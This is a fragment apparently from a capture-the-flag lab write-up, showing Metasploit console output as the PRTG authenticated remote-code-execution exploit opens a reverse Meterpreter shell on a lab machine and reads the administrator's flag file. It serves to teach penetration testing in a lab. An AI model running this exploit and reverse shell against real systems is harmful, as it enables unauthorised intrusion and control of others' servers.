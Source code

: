 ```

   Id  Name
   --  ----
   0   Automatic Targeting

   msf6 exploit(windows/http/prtg_authenticated_rce) > exploit 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2020)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to 10.10.10.152
[*] Meterpreter session 2 opened (10.10.14.11:4444 -> 10.10.10.152:50442) at 2021-02-09 16:12:51 +0900

meterpreter > cd c:\users\administrator\desktop
meterpreter > pwd
c:\users\administrator\desktop
meterpreter > cat root.txt
3018977fb944bf1878f75b879fba67cc

```